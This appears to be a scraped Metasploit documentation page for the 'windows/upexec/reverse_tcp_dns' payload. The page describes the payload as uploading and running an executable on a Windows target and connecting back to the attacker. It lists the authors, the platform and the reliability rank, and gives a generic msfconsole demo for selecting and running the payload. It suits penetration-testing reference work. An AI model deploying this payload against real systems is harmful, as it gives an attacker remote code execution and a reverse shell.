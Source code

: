 ## Windows Upload/Execute, Reverse TCP Stager (DNS)

Uploads an executable and runs it (staged). Connect back to 
the attacker


## Module Name
payload/windows/upexec/reverse_tcp_dns

## Authors
* vlad902
* sf
* hdm
* skape





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/upexec/reverse_tcp_dns
msf payload(reverse_tcp_dns) > show targets
   ... a list of targets ...
msf payload(reverse_tcp_dns) > set TARGET <target-id>
msf payload(reverse_tcp_dns) > show options
   ... show and set options ...
msf payload(reverse_tcp_dns) > run
```
    
    